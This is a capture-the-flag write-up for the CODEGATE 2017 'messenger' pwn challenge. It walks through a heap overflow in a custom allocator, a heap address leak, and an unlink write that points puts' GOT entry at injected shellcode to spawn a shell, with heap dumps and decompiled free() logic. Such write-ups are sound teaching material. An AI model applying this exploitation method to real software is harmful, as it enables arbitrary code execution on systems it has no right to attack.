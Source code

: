 title: '[CODEGATE CTF 2017] messenger 500'
author: Naetw
tags:
  - CODEGATE CTF 2017
  - pwn
  - heap overflow
  - unlink
categories:
  - write-ups
date: 2017-02-21 16:38:40
---

## Analyzing

64 bits ELF, Partial RELRO, with canary, no NX & PIE

There are five options:

[L]eave:

* Leave at most two messages.
* Free size to choose but max size is 32.
* The binary implements `malloc` itself. It's a little bit complex, but it's not the key point in this challenge.

[R]emove:

* The binary implements `free` itself, too. It will do the `unlink` operation. And that's what we gonna use to exploit.
* After the remove operation, the global variable which records the number of messages won't be changed.

[C]hange:

* Here is an overflow vulnerability. It will ask the size first, and it doesn't need to be the same as the size of original message. We would use this to change the chunk struct.

[V]iew:

* Use this to leak heap address.

[Q]uit:

* Quit the program.

Here is its heap struct(assume that there is already a size 8 message leaved):

```
            +-----------------------+
            | size      | fd        |  # Head
            +-----------------------+
            |           | size      |  # First message 
            | fd        | bk        |
            | data                  |
            +-----------------------+
            |           | size      |  # Top chunk
            |           | bk        |
            +-----------------------+
```

fd, bk will point the address where chunk stores its size instead of start of data or head of chunk.


## Exploit

First, leave a message of size 8, then use `change` to overflow the chunk struct. In the end of first step, use `view` to leak heap address.

Heap layout in the beginning:

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000400           # Top chunk
0x603020:      0x0000000000000000      0x0000000000603000
0x603030:      0x0000000000000000      0x0000000000000000
0x603040:      0x0000000000000000      0x0000000000000000
0x603050:      0x0000000000000000      0x0000000000000000
```

Leave an message of size 8:

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x0000000041414141      0x0000000000000000
0x603040:      0x0000000000000000      0x00000000000003d0           # Top chunk
0x603050:      0x0000000000000000      0x0000000000603018
```

Use `change` to overflow, then leak the heap address:

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x4141414141414141      0x4141414141414141
0x603040:      0x4141414141414141      0x4141414141414141           # Top chunk
0x603050:      0x4141414141414141      0x0000000000603018
```

Here use the `view` function. It will output `'A'*40 + '\x18\x30\x60'`. The offset to the head of heap will be fixed.


Second, use `change` again to recover the heap struct since we don't want to mess up the heap struct. The struct will be the same as the second layout:

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x0000000041414141      0x0000000000000000
0x603040:      0x0000000000000000      0x00000000000003d0           # Top chunk
0x603050:      0x0000000000000000      0x0000000000603018
```

Third, leave another message of size 8:

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x0000000041414141      0x0000000000000000
0x603040:      0x0000000000000000      0x0000000000000031           # Second message
0x603050:      0x0000000000603018      0x0000000000603018
0x603060:      0x0000000042424242      0x0000000000000000
0x603070:      0x0000000000000000      0x00000000000003a0           # Top chunk
0x603080:      0x0000000000000000      0x0000000000603048
```

Then, we need to use `unlink` to make puts.got.plt point to the address where we put shellcode. Take a look at the `free` code.

* buf - address where chunk stores data
* size_adr - address where chunk stores size
* buf_bk - bk of current_freed_chunk
* buf_fd - fd of current_freed_chunk
* qword_6020B0 - a list which stores address of message

```
# list struct
0x6020b0:      0x0000000000603000      0x0000000000000000           # Head  | Nothing
0x6020c0:      0x0000000000603030      0x0000000000603060           # First | Second
```

```c
size_adr = buf-24;
buf_bk = *(_QWORD *)(buf-24+16);
buf_fd = *(_QWORD *)(buf-24+8);
if (buf_bk)
    *(_QWORD *)(buf_bk+8) = buf_fd;                         // make buf_bk->fd = current_freed_chunk->fd
if (buf_fd)
    *(_QWORD *)(buf_fd+16) = buf_bk;                        // make buf_fd->bk = current_freed_chunk->bk
*(_QWORD *)(size_adr+8) = *(_QWORD *)(qword_6020B0+8)       // make current_freed_chunk->fd = first message  
if (*(_QWORD *)(qword_6020B0+8))
    *(_QWORD *)(*(_QWORD *)(qword_6020B0+8)+16) = size_adr; // make first message->bk = current_freed_chunk
*(_QWORD *)(qword_6020B0+8) = size_adr;                     // make Head->fd = current_freed_chunk
*(_QWORD *)size_adr &= 0xFFFFFFFFFFFFFFFE;                  // clear inuse bit
```

Use `buf_bk->fd = current_freed_chunk->fd`, to overwrite puts.got.plt. Make `buf_bk` = `puts.got.plt-8` and `buf_fd` = `address of shellcode`. And since `buf_bk->fd` will be `puts_got.plt`, `puts.got.plt` will point to `address of shellcode` after the `unlink` operation.

Here we need to use `change` to overwrite struct of second message first. Then free the second message.

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x4141414141414141      0x0000000000000000
0x603040:      0x0000000000000000      0x0000000000000031           # Second message
0x603050:      0x00000000006030a8      0x0000000000602010
0x603060:      0x4242424242424242      0x0000000000000000
0x603070:      0x0000000000000000      0x00000000000003a0           # Top chunk
0x603080:      0x0000000000000000      0x0000000000603048
0x603090:      0x0000000000000000      0x0000000000000000
0x6030a0:      0x0000000000000000      0x00000000000016eb
0x6030b0:      0x0000000000000000      0x0000000000000000
0x6030c0:      shellcode
```

* `0x602010` - `puts_got-8`
* `0x6020a8` - address of shellcode

I only put `\xeb\x16` on `0x6030a8` since the side-effect of `unlink`. `unlink` would put `buf_fd` on `buf_bk->bk`.

```
0x603000:      0x0000000000000018      0x0000000000603048           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603048
0x603030:      0x4141414141414141      0x0000000000000000
0x603040:      0x0000000000000000      0x0000000000000030           # Second message
0x603050:      0x00000000006030a8      0x0000000000602010
0x603060:      0x4242424242424242      0x0000000000000000
0x603070:      0x0000000000000000      0x00000000000003a0           # Top chunk
0x603080:      0x0000000000000000      0x0000000000603048
0x603090:      0x0000000000000000      0x0000000000000000
0x6030a0:      0x0000000000000000      0x00000000000016eb
0x6030b0:      0x0000000000000000      0x0000000000602010 <- buf_bk
0x6030c0:      shellcode
```

Therefore, if we put the **real shellcode** right on the `buf_fd`, our shellcode would be messed up. Use the `jmp 0x18` so that when calling `puts` it will jump to the address of **real shellcode** which is `0x6030c0`. Then... open the shell!


[Exploit Code](https://github.com/Naetw/CTF-write-up/blob/master/CODEGATE-2017/messenger/ex.py)
